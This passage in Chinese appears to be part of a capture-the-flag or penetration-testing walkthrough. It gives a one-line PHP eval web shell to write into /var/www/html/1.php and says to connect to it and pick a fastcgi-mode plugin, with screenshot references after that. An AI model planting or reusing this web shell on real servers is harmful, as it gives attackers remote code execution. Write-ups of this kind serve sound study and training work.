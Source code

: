然后在/var/www/html目录下再写一个1.php

```
<?php eval($_POST[1]);?>
```

连接1.php

然后利用插件

选择fastcgi模式

![image-20211115155110502](images/21.png)

![image-20211115160837199](images/22.png)
